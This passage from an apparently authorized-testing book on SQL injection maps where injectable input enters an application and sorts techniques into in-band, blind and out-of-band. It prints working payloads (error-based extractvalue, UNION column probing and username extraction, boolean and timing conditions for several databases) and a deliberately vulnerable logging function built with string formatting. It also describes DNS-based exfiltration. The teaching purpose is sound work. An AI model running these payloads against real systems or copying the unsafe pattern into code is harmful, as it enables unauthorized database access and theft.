**Note:** The last two columns are the ones that matter. "Reaches a query" is a code-tracing question — does this value, through any function calls, end up as part of a SQL string, anywhere, even in a rarely-hit code path like an audit log or an admin report? "Parameterized" is the actual security determination. A field can reach a dozen different queries; if even one of those twelve uses string concatenation, the field is exploitable, regardless of how careful the other eleven were.

### 2.8 How This Connects to the Rest of the Book

I organized this chapter around *location* deliberately, because Chapter 3 is going to organize the *techniques* by mechanism instead, and I want you to be able to combine the two: for any entry point in this chapter's inventory, ask which of Chapter 3's mechanisms would actually be observable through it. A header value that's silently logged but never reflected anywhere in the response, for instance, rules out error-based and union-based confirmation entirely (there's no visible channel for the data to come back through) and points you straight at blind or time-based techniques instead — which is exactly the kind of reasoning Part II is built around.


### 2.9 Discovering Parameters You Weren't Told About

Everything so far assumes you already know a parameter exists — you saw it in the form, in the API docs, or in a captured request. A meaningful fraction of real findings, though, come from parameters that exist in the backend but aren't exposed anywhere a casual user would ever see them: debug flags, legacy fields kept for backward compatibility, or fields used internally by a mobile client that never shipped a web equivalent. Finding these is a legitimate, well-established part of authorized reconnaissance, so I want to walk through how I actually do it.

#### 2.10.1 Passive Discovery First

Before sending a single extra request, I look at what the application *already* tells me:

- **Browser DevTools → Network tab**, watching every XHR/fetch call while I click through the application normally. This alone usually surfaces parameters the visible UI doesn't hint at — a `debug` flag toggled by a keyboard shortcut, an internal `_variant` field used for A/B testing.
- **JavaScript source review.** Bundled frontend JS frequently contains the full list of fields a form *could* send, even when the rendered HTML only shows a subset. `grep`-ing a bundle for `fetch(`, `axios.`, or `.post(` and reading the payload object literals nearby is one of the highest-signal things I do early in an assessment.
- **API documentation artifacts** — `/swagger.json`, `/openapi.yaml`, `/api-docs`, a GraphQL endpoint's introspection query. Where these exist and aren't disabled, they hand you the model directly:

```graphql
{
  __schema {
    types {
      name
      fields { name args { name type { name } } }
    }
  }
}
```

Sent to a GraphQL endpoint that hasn't disabled introspection, this legitimately returns the entire schema — every type, every field, every argument — with zero exploitation involved. It's just asking the API what it supports.

#### 2.10.2 Active, Authorized Discovery

When passive discovery runs out, and only within a scope I'm authorized to test, I move to active enumeration of parameter *names* — not payloads, just names, to find fields the backend accepts but the frontend never sends.

```bash
# Arjun — HTTP parameter discovery, tests candidate parameter names
# against a target endpoint and reports which ones the server
# actually reacts to (different response, different status code, etc.)
arjun -u "https://target.example/api/search" -m GET

# ffuf — generic fuzzer, useful for the same purpose with a custom wordlist
ffuf -u "https://target.example/api/search?FUZZ=1" -w params.txt -mc all -fc 404
```

**Note:** This step is pure reconnaissance — it identifies that a parameter *exists*, not that it's vulnerable. I always keep this phase and the confirmation phase (Chapters 4–6) mentally separate, because conflating "the server recognized this parameter name" with "the server is vulnerable through it" is a common source of false positives in early-career testing.

#### 2.10.3 A Worked Example: Tracing One Parameter End to End

To make this concrete, here's the kind of trace I actually do during a code-assisted review (i.e., when I have source access, such as in a white-box engagement or my own codebase):



I trace it this way specifically because `sortBy` and `dir` might travel through two or three layers of clean, well-tested, parameterized code (the `WHERE` clause on the same query might be perfectly safe) before hitting the one line, in one rarely-touched reporting service, that builds `ORDER BY` by string formatting. Grepping a codebase for `"ORDER BY " +` or `f"ORDER BY {`, and separately for `.execute(query % `, `.raw(`, and similar string-building patterns, is one of the highest-value five minutes I spend on any code review — far higher-value, in my experience, than reading every query top to bottom in file order.

#### 2.10.4 A Second Worked Example: The Header Nobody Tests

The same tracing exercise applied to Section 2.4's header risk looks like this in practice:

```python
# A logging decorator, applied to every route in the application
def log_request(req):
    ua = req.headers.get("User-Agent", "unknown")
    # Looks completely unrelated to "SQL injection" at a glance —
    # it's an analytics/logging concern, reviewed by a different
    # team than the one that owns the login form.
    cursor.execute(
        "INSERT INTO request_log (path, user_agent, ts) VALUES ('%s', '%s', NOW())"
        % (req.path, ua)
    )
```

This is a genuinely common pattern: the *security-reviewed* code is the business logic (login, search, checkout), while the *infrastructure* code (logging, analytics, audit trails) gets written once, early, by whoever set up the project skeleton, and then never gets a second look — even though it runs on every single request and touches attacker-controlled data (the `User-Agent` header) every time.


### 2.9a A Cross-Reference Table for the Rest of the Book

I found it useful to keep one table in view that maps each entry-point category back to the chapters that actually deal with it, both for testing methodology and for defense. I'll keep referring back to this.

| Entry point | Typical confirmation method (Part II) | Typical defense (Part III) |
|---|---|---|
| Query string / path params | Boolean, error-based, time-based (Ch. 4–6) | Parameterized queries (Ch. 9) |
| JSON body — nested/array | Same as above, but requires walking the structure | Same, plus schema validation at the API layer |
| Headers / cookies | Often blind-only, since responses rarely echo header values back | Parameterization **and** never trusting headers for authz (Ch. 9, 12) |
| Sort / order / column-name parameters | Usually blind, since the visible symptom is a re-ordered list, not an error | Whitelist validation — cannot be parameterized (Ch. 11) |
| WebSocket / gRPC messages | Requires protocol-aware tooling | Parameterization at the message-handler layer (Ch. 9) |

#### 2.9b The Cost of Missing One Category

I want to close this chapter with a small, honest admission: no single tester or reviewer catches every category in this chapter on every engagement, and that's not really the goal. The goal is to have the *inventory itself* — written down, checked off, revisited — so that gaps are a visible, tracked risk rather than an invisible blind spot. In my own practice, the categories I most often forget to check, in order, are: array elements inside JSON bodies, multipart filenames, and WebSocket message keys. I mention my own gaps deliberately, because I think pretending an exhaustive mental checklist is realistic sets people up to skip the actual written checklist in Section 2.7 — which is the part that actually catches what memory alone won't.

#### 2.9c A Practical Exercise

If you want to build this instinct rather than just read about it, here's what I'd actually do: pick one application you're authorized to test (your own side project is perfect for this), open DevTools, and spend twenty minutes clicking through every feature while watching the Network tab. Don't test anything yet — just build the inventory table from Section 2.7, filling in every row you can find. I'd bet that by the end of twenty minutes, you have at least one row — probably a header, a nested JSON field, or a sort parameter — that you would not have thought to test if you'd started from the visible UI alone. That gap, made visible, is the entire point of this chapter.


### 2.10 Chapter Summary

- SQL injection's attack surface is defined by **everything the client controls in an HTTP request** — not by which fields your frontend chose to render as `<input>` elements.
- URL-based input includes query strings, path parameters, and (client-side-only) fragments.
- Body-based input includes form-encoded fields, JSON (with three distinct injectable shapes: flat keys, nested keys, and array elements), XML, multipart fields *and filenames*, and GraphQL arguments at every nesting level.
- Header-based input includes standard headers, auth headers, custom `X-` headers (which carry the added risk of being *trusted* for access control), and every individual cookie key.
- Special-purpose parameters — hidden fields, sort/order parameters, redirect targets, file paths — each carry their own secondary risks (mass assignment, unparameterizable `ORDER BY` clauses, open redirect, path traversal) on top of the SQLi risk.
- Protocol-specific surfaces — WebSocket messages, gRPC fields, NoSQL operator keys — are frequently under-tested simply because standard tooling doesn't cover them by default.
- The determination that actually matters isn't "is this field visible in the UI," it's "does this value reach *any* SQL string, through *any* code path, without being parameterized."

In the next chapter, I'll take this inventory of *where* and build the taxonomy of *how* — the actual mechanisms (in-band, blind, out-of-band) that let a tester or an attacker turn one of these entry points into confirmed, provable unauthorized data access.

## A Taxonomy of SQL Injection: In-Band, Blind, and Out-of-Band

### Why I Wanted a Taxonomy Based on Mechanism, Not Payload Lists

The resource that frustrated me most while researching this book was the "cheat sheet" format — a long, undifferentiated list of strings to try, with no organizing principle connecting them. It's genuinely hard to reason about SQL injection from a list like that, because two payloads that look completely different on the surface (`' OR '1'='1' --` and `' AND SLEEP(5) --`) are actually answering the exact same underlying question — "can I influence what this query does?" — through two different *channels* of feedback.

This chapter is my attempt to organize the subject the way I eventually came to understand it myself: not by what the payload looks like, but by **what channel carries the proof back to you.** Once you sort by channel, the whole subject collapses from "hundreds of memorized strings" into three fundamentally different situations, each with its own logic.



### 3.1 In-Band Injection: The Response *Is* the Channel

"In-band" means the data comes back to you through the exact same channel you sent your request over — the HTTP response. This is the easiest category to work with, because you don't need to infer anything; the database, or the application relaying its error, tells you directly.

#### 3.1.1 Error-Based Injection

This relies on the application surfacing a raw database error message to the client — a practice that was extremely common in the PHP/MySQL era of the 2000s–2010s and, in my experience reading recent disclosure reports, is still far from extinct, especially in internal tools and admin panels that were never expected to face the public internet.

**The mechanism:** certain SQL functions throw an error that includes part of a query result inside the error text itself. A well-known example in MySQL is `extractvalue()`, which is meant for XML path extraction but throws a malformed-XPath error if fed a value that isn't valid XPath — and that error message includes the value it was given.

```sql
-- Conceptually: force an error whose message contains query output
SELECT extractvalue(1, concat(0x7e, (SELECT version())));
```

If the application prints database errors verbatim (a configuration and coding mistake, not a feature), the resulting HTTP response literally contains the database version string inside an error message resembling `XPATH syntax error: '~8.0.34-...'`.

**Why I file this as in-band:** the proof of the vulnerability, and the extracted data, arrive in the *same response*, in the *same request/response cycle*, as the request that triggered it. No waiting, no separate observation channel, no statistical inference required.

**Note on testing this responsibly:** a verbose SQL error surfacing in response to a single quote (`'`) is itself often sufficient to report the vulnerability at high confidence. Many programs and clients consider a leaked stack trace or raw DB error, on its own, a legitimate information-disclosure finding worth writing up, even before extracting a single row of data. I come back to this in Chapter 8.

#### 3.1.2 Union-Based Injection

This is the technique most people picture when they hear "SQL injection," because it's capable of pulling a full result set back in a single request, through the application's normal, intended output — not an error message. I devoted real attention to this because I think it's the clearest example of Chapter 1's "code and data boundary" idea made concrete: `UNION` is a completely legitimate, everyday SQL operation — Chapter 1's algebraic reference calls it $R \cup S$ — and the attack doesn't invent anything new. It just gets to choose what $S$ is.

**The three hard rules `UNION` enforces**, which is why confirming union-based injection is a multi-step process rather than a single payload:

1. Both `SELECT` statements must return the **same number of columns**.
2. Corresponding columns must have **compatible data types**.
3. The second `SELECT` can target **any table the database account can read**, not just the table the original query was written against.

**Step 1 — find the column count**, typically with `ORDER BY`, incrementing until the database complains that a column position doesn't exist:

```
?id=1 ORDER BY 1--   (no error)
?id=1 ORDER BY 2--   (no error)
?id=1 ORDER BY 3--   (no error)
?id=1 ORDER BY 4--   (error: unknown column '4' in 'order clause')
```

Four fails, three succeeds — the query returns three columns.

**Step 2 — find which columns are actually rendered on the page.** A query can return three columns while the application's HTML only displays one or two of them:

```
?id=0 UNION SELECT 'marker_a', NULL, NULL--
?id=0 UNION SELECT NULL, 'marker_b', NULL--
?id=0 UNION SELECT NULL, NULL, 'marker_c'--
```

Whichever marker string shows up on the page identifies which column position is a usable channel.

**Step 3 — substitute real (but still scoped-to-authorized-testing) data** into that visible column position:

```
?id=0 UNION SELECT NULL, username, NULL FROM users--
```

**Why `id=0`:** setting the legitimate half of the query to a value matching no real row means the *only* row the page renders comes from the `UNION` — much cleaner output than mixing real rows with injected ones.

**Why the trailing `--`:** it comments out whatever the application would have appended after the injection point (a closing quote, a second clause), keeping the combined string syntactically valid.


### 3.2 Blind Injection: Inference Without a Direct Channel

The moment an application stops printing database errors and stops reflecting query results directly onto the page, in-band techniques go dark — but the injection can still be very much alive underneath. "Blind" doesn't mean unconfirmable. It means the database has to be asked **yes/no questions**, and the answer read off a subtler signal than "here's your data."

#### 3.2.1 Boolean-Based Blind Injection

The signal here is any observable difference in application behavior between a condition that evaluates true and one that evaluates false — a different HTTP status code, a "0 results" versus "3 results" page, a login form that says "invalid password" versus one that says "invalid username," even a measurable difference in response length.

```
?id=1 AND 1=1--      → page renders normally (condition true)
?id=1 AND 1=2--      → page renders differently: empty, error, redirect (condition false)
```

That single true/false differential is the entire building block. Once confirmed, any yes/no question can be phrased as a condition:

```
?id=1 AND LENGTH(database())=5--            → true/false: is the DB name 5 characters?
?id=1 AND SUBSTRING(database(),1,1)='a'--   → true/false: is the first character 'a'?
```

**The part that took me longest to really absorb:** you don't have to test every letter, digit, and symbol sequentially for each character position. Because you're asking the database a *comparison*, not just an equality, you can **binary search** the character space:

```
?id=1 AND ASCII(SUBSTRING(database(),1,1)) > 109--   → true or false
```

Each request eliminates half of the remaining possibilities. For roughly 95 printable ASCII characters, that's about 7 requests per character instead of up to 95 — the reasoning behind why every automated blind-SQLi tool implements binary search rather than linear guessing.



**Caution:** in real testing, "the page renders differently" is a much noisier signal than it sounds. Session state, timestamps embedded in the page, ads or "related items" widgets that vary between loads, and caching layers can all produce false differentials that have nothing to do with your injected condition. Chapter 6 covers this in detail — establishing a stable baseline before trusting any boolean signal is not optional.

#### 3.2.2 Time-Based Blind Injection

When there's no observable difference in the response *content* at all — same page, same status code, same length, regardless of the condition — the last remaining channel is **how long the database takes to answer.** This works because SQL includes functions that deliberately pause execution, and you can make that pause **conditional**.

```sql
-- MySQL: sleep only if the condition is true
' AND IF(1=1, SLEEP(5), 0)--

-- PostgreSQL: same idea, different syntax
' AND (SELECT CASE WHEN (1=1) THEN pg_sleep(5) ELSE pg_sleep(0) END)--

-- MSSQL: no conditional sleep function, so the delay itself is the injected payload
'; IF (1=1) WAITFOR DELAY '0:0:5'--
```

If the response comes back in roughly 5 seconds when the condition is true, and near-instantly when it's false, that timing differential *is* your boolean channel — every technique from Section 3.2.1 (including binary search) applies identically, just with "measure elapsed time" substituted for "compare page content."

**Note:** time-based extraction is, in practice, the slowest and noisiest of the four in-response techniques, because network jitter, server load, and connection pooling variance can all produce a 1–2 second wobble that has nothing to do with your payload. I go into the statistical discipline this requires — running a baseline, running multiple trials, using a delay long enough to be unambiguous but short enough not to hang the test — in Chapter 6.


### 3.3 Out-of-Band Injection: When the Response Gives You Nothing

Out-of-band (OOB) is the category for situations where the application's response — whether by content or by timing — genuinely carries no usable signal at all: perhaps the query runs asynchronously, in a background job, disconnected entirely from the request/response cycle that triggered it, or a proxy in front of the application normalizes timing and truncates or replaces every error page identically.

**The core idea:** if the response channel is unusable, get the database to open a *different* channel — typically a DNS lookup or an outbound HTTP request — whose destination hostname or path is built, server-side, from query data. A DNS query for `<extracted-data>.attacker-controlled-domain.com`, arriving at a name server the tester controls, becomes the exfiltration channel, entirely independent of the original HTTP response.



**Why this category matters even though this book doesn't hand you ready-to-fire OOB payloads:** understanding *that this channel exists* changes how you reason about a target. If a query is clearly injectable (confirmed via boolean or timing signals) but seems to leak nothing useful through the response, an experienced tester's next thought is "is this database account permitted to make outbound network calls at all, and if so, through which function" — a question that shapes both further authorized testing and, on the defensive side, exactly why Chapter 12 spends real time on restricting exactly this kind of outbound capability at the database-account level, regardless of what the application code does.

**Caution:** OOB techniques, by design, cause the database server to make outbound network requests to infrastructure you control. Doing this against any target requires clear authorization that specifically covers this kind of interaction — it's a meaningfully different action than simply sending a crafted HTTP request, and some bug bounty programs explicitly restrict or require pre-approval for OOB/DNS-interaction testing. Check your program's rules before using this category at all.


### 3.4 Why the "Swiss Army Knife" Framing for UNION Is Both Right and Incomplete

I've seen union-based injection called the "Swiss Army knife" of SQLi in a lot of places, including some of my own earlier notes, and I think that's fair as far as it goes — a single successful `UNION` payload can return complete rows from any readable table in one request, which no blind technique can match for speed. But I want to push back gently on treating it as the *default* target, because in my reading of modern disclosure reports, union-based findings have become proportionally rarer — not because the underlying bug is rarer, but because:

1. Modern frameworks default to parameterized queries for `WHERE` clauses far more consistently than they used to, closing off the most common union-based entry points.
2. Where injectable parameters remain, they're disproportionately concentrated in exactly the places Chapter 2 flagged as under-tested — `ORDER BY` clauses, headers, nested JSON fields — which are frequently blind by nature, because they don't reflect their value into the visible response at all.

| Technique | Speed | Data per request | Requires |
|---|---|---|---|
| Error-based | Fast | Partial (fits in error message) | Verbose errors enabled |
| Union-based | Instant | Full rows | A visible output column, matching column count/types |
| Boolean blind | Slow | ~1 bit | Hundreds of requests, automation |
| Time-based blind | Slowest | ~1 bit | Automation, careful statistics |
| Out-of-band | Fast per item | Depends on payload size limits | DB account with outbound network capability |

The practical lesson I take from this table, and the one I'd want a new tester to internalize before Part II: **don't stop testing just because union-based confirmation fails.** A parameter that resists `UNION` entirely can still be very much vulnerable through the boolean or time-based channel — the taxonomy in this chapter exists precisely so you have three doors to try, not one.


### 3.5 Second-Order Injection: A Cross-Cutting Concern

I want to flag one more pattern before closing this chapter, because it doesn't fit neatly into the in-band/blind/OOB split — it's better described as a *timing-of-storage* problem than a channel problem, and it can combine with any of the three categories above.

**Second-order injection** happens when malicious input is stored safely — often via a perfectly correct parameterized `INSERT` — and then later retrieved and used, unsafely, to build a *different* query.



**Why this matters for the rest of the book:** it's a direct illustration that "this input is safe because it went through a parameterized `INSERT`" is an incomplete claim. Safety isn't a property of a single query — it's a property of *every* query that value ever reaches, for the entire lifetime of that data, including reports, exports, admin dashboards, and audit logs written months later by a different team. I'll return to this in Chapter 9 when discussing what "parameterize everything" actually has to mean in practice: not just the query where data enters, but every query where it's ever read back out.


### 3.6 The Same Mechanism, Different Dialects

One thing that surprised me while cross-referencing techniques across database engines: the *mechanism* in each category above is universal, but the *syntax* is not, because comment characters, string functions, and delay functions all differ by vendor. I found it useful to build a single reference table rather than memorize five separate payload sets.

| Concept | MySQL / MariaDB | PostgreSQL | MSSQL | Oracle | SQLite |
|---|---|---|---|---|---|
| Line comment | `--` or `#` | `--` | `--` | `--` | `--` |
| String concatenation | `CONCAT(a,b)` | `a \|\| b` | `a + b` | `a \|\| b` | `a \|\| b` |
| Substring | `SUBSTRING(s,1,1)` | `SUBSTRING(s,1,1)` | `SUBSTRING(s,1,1)` | `SUBSTR(s,1,1)` | `SUBSTR(s,1,1)` |
| Conditional delay | `IF(cond, SLEEP(n), 0)` | `CASE WHEN cond THEN pg_sleep(n) END` | `IF cond WAITFOR DELAY '0:0:n'` | `CASE WHEN cond THEN dbms_lock.sleep(n) END` | No native sleep |
| Version disclosure | `@@version` | `version()` | `@@VERSION` | `v$version` (via query) | `sqlite_version()` |
| Metadata catalog | `information_schema` | `information_schema` / `pg_catalog` | `sys.tables` / `sys.columns` | `all_tables` / `all_tab_columns` | `sqlite_master` |

**Why this matters for the taxonomy in this chapter, specifically:** the very first thing I do once I've confirmed *that* a parameter is injectable, by whichever channel, is figure out *which row of this table applies* — because every subsequent step (Chapters 5–7) depends on using the right dialect. A time-based confirmation payload written for MySQL's `SLEEP()` will silently fail against MSSQL, not because the target isn't vulnerable, but because the function doesn't exist there — a false negative that has nothing to do with the actual security posture of the application.

#### 3.7.1 Fingerprinting Before Anything Else

A quick, low-noise way to identify the dialect, once you have any confirmed injection channel, is to test which version-disclosure function the target accepts without erroring:

```
?id=1 AND @@version IS NOT NULL--         → succeeds only on MySQL/MSSQL-family syntax
?id=1 AND version() IS NOT NULL--         → succeeds only on PostgreSQL-family syntax
```

I mention this mainly because I've watched testers burn a surprising number of requests trying every technique from every dialect in an undifferentiated order, when five seconds of fingerprinting up front would have told them which column of the table above to actually use.


### 3.7 Common Misreadings of the Signal

I want to spend a short section on the mistakes I made, or watched others make, when first applying this taxonomy in practice — because I think this is exactly the kind of thing that separates a confident, defensible finding from a false positive that damages a tester's credibility.

#### 3.8.1 Treating a Slow Endpoint as a Time-Based Positive

Some endpoints are just slow — a report that aggregates a million rows, a third-party API call in the request path, a cold cache on first hit. If your baseline measurement (an unmodified request) isn't consistently fast, a 5-second delay on your `SLEEP(5)` payload proves nothing. I always take multiple baseline measurements of the *unmodified* request first, and only trust a timing differential that's dramatically larger than the natural variance I already observed.

#### 3.8.2 Treating Any Page Difference as a Boolean Positive

Dynamic content — "you might also like," rotating banners, a visit counter, a session-scoped CSRF token embedded in the HTML — can make two otherwise-identical requests produce byte-different responses for reasons that have nothing to do with your payload. The fix is the same discipline as 3.8.1: establish what "normal variance" looks like across several unmodified requests before trusting a differential you introduced.

#### 3.7.3 Assuming Union Failure Means "Not Vulnerable"

As covered in Section 3.4, a `UNION` attempt can fail for purely structural reasons — wrong column count, a type mismatch, no readable output column — on a parameter that is fully vulnerable through the boolean or time-based channel. I've seen "not vulnerable" written into reports after only a `UNION SELECT NULL--` attempt failed once. That's a methodology gap, not a finding.

#### 3.7.4 Confusing "The Server Errored" with "The Server Is Injectable"

A single quote breaking a query and producing a generic HTTP 500 is a strong *signal*, but on its own it's not proof of the specific mechanism at play. I've seen 500 errors that were actually caused by an unrelated bug the quote happened to trigger — a downstream service choking on an unexpected character, not the database at all. The way I resolve this ambiguity is to look for a *second*, independent signal that specifically implicates SQL: a database-flavored error string in the response, or a boolean differential between `AND 1=1` and `AND 1=2` that a generic parsing bug wouldn't reproduce. One signal earns a hypothesis; two independent signals earn a finding.

#### 3.7.5 A Decision Framework I Actually Use

To pull this whole chapter into something usable in the moment, here's the decision sequence I follow once I suspect a parameter might be injectable:



I find this useful specifically because it forces the *cheapest, least noisy* test first (a single quote) and only escalates to statistically-heavier techniques (timing, binary search extraction) once the cheaper signals have been exhausted — which keeps both the request volume and the risk of a false positive as low as the situation allows.


### 3.8 Chapter Summary

- The most useful way to organize SQL injection techniques is by **which channel carries the proof back to you** — in-band, blind, or out-of-band — not by memorizing individual payload strings.
- **In-band** techniques use the HTTP response itself: **error-based** injection leaks data through database error messages; **union-based** injection leaks full rows through the application's normal output, subject to `UNION`'s three hard rules (matching column count, compatible types, readable-table access).
- **Blind** techniques ask the database yes/no questions and read the answer off an indirect signal: **boolean-based** blind uses observable differences in page content or status; **time-based** blind uses observable differences in response delay. Both support binary search to extract data efficiently.
- **Out-of-band** techniques matter when the response channel — content or timing — carries no usable signal at all, forcing exfiltration through a separate network channel such as DNS. This category requires explicit authorization beyond ordinary request testing.
- Union-based injection is fast and complete when it works, but modern applications increasingly leave it closed off while remaining vulnerable through blind channels — don't stop testing at the first closed door.
- **Second-order injection** is a cross-cutting pattern: data stored safely via a parameterized `INSERT` can still reach an unsafe, concatenated query later, in a completely different part of the codebase.

Part II of this book, starting with the next chapter, takes this taxonomy and turns it into an actual, responsible testing methodology — starting with the very first, least-destructive step: recognizing that a parameter is even a candidate worth investigating in the first place.

## Recognizing a Candidate Injection Point

### Where Part II Actually Begins

This is the chapter where the book shifts from "understanding" to "doing," so I want to restate the ground rule from Chapter 1 before anything else, because it applies to literally every technique from here through Chapter 8: **everything in this part of the book assumes you are testing an application you own, or one you have explicit written authorization to test.** A published bug bounty scope counts. A pentest engagement letter counts. "I'm curious about this site I don't otherwise have a relationship with" does not, no matter how interesting the target looks.

With that said — this chapter is about the very first move: figuring out whether a parameter is even *worth* investigating further, using the lowest-noise, least-destructive checks available, before you commit any real time to it. I've found that testers who skip this step and jump straight to automated scanning tend to generate a lot of false positives and a lot of unnecessary load on the target; testers who spend five minutes here first save themselves hours later.


### 4.1 The Mental Model: You're Looking for One Thing

Everything in this chapter reduces to a single question, asked over and over against every entry point from Chapter 2's inventory:

> **Does this input, in any way, change the *shape* of the query the backend runs — beyond simply substituting a different value into an unchanged shape?**

A parameter that only ever changes *which row* comes back (same query shape, different value — exactly what a parameterized query is supposed to allow) is behaving correctly. A parameter that, when you feed it something unexpected, changes the query's *structure* — causes a syntax error, returns a different number of columns, alters which rows match — is telling you the boundary between code and data (Chapter 1) has broken down somewhere in the code path it touches.

